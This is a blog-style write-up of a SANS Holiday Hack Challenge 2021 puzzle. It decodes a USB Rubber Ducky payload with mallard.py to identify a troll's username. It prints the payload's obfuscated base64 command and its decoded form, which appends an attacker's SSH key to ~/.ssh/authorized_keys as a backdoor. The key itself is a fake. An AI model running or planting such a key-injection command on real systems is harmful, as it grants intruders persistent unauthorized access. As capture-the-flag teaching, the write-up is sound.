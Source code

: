 ```yaml
---
layout: post
title:  "5 - Strange USB Device"
date:   2021-12-13 02:00:39 -0800
categories: kringlecon2021 objective5
---
```


This is challenge number 5 in the 2021 SANS Holiday Hack Challenge (https://2021.kringlecon.com/). Objective:

>Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.

We start by logging onto the terminal on the Talks floor. We see that we need to find the username of the troll involved with this attack, and it tells us that the strange USB device has been mounted at /mnt/USBDEVICE

![Objective5 terminal](/assets/kringlecon2021/objective5/objective5_terminal.jpg)


If we take a peek of the inject.bin, we find a bunch of unreadable binary characters


![Objective5 injectbin](/assets/kringlecon2021/objective5/objective5_injectbin.jpg)


We also find a reference to a file called mallard.py. If we do a google search for this script we learn that this is a Ducky script decoder (https://github.com/dagonis/Mallard). So what is Ducky? Further research leads us to determine that (https://docs.hak5.org/hc/en-us/categories/360000982554-USB-Rubber-Ducky)

>Ducky is a keystroke injection tool disguised as a generic flash drive. Computers recognize it as a regular keyboard and automatically accept its pre-programmed keystroke payloads at over 1000 words per minute.

So putting 2 and 2 together, the inject.bin must be a ducky script, and they want us to decode that script using mallard.py. Let's do that!


{% highlight shell %}
python3 mallard.py -f /mnt/USBDEVICE/inject.bin
{% endhighlight %}


![Objective5 mallardoutput](/assets/kringlecon2021/objective5/objective5_mallardoutput.jpg)

We find this produces a readable set of instructions that have been encoded on the USB. None of the lines point to anything that tell us what the username of the troll may be, but we can observe a base64 encoded string that gets echo'd in the script. If we decode that:

{% highlight shell %}
88665a561824:Downloads bryan$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
{% endhighlight %}

Ah-hah! Here we find that the USB device was adding a backdoor SSH account for user ickymcgoop@trollfun.jackfrosttower.com. We now have our answer!


![Objective5 answer](/assets/kringlecon2021/objective5/objective5_answer.jpg)

![Objective5 complete](/assets/kringlecon2021/objective5/objective5_complete.jpg)
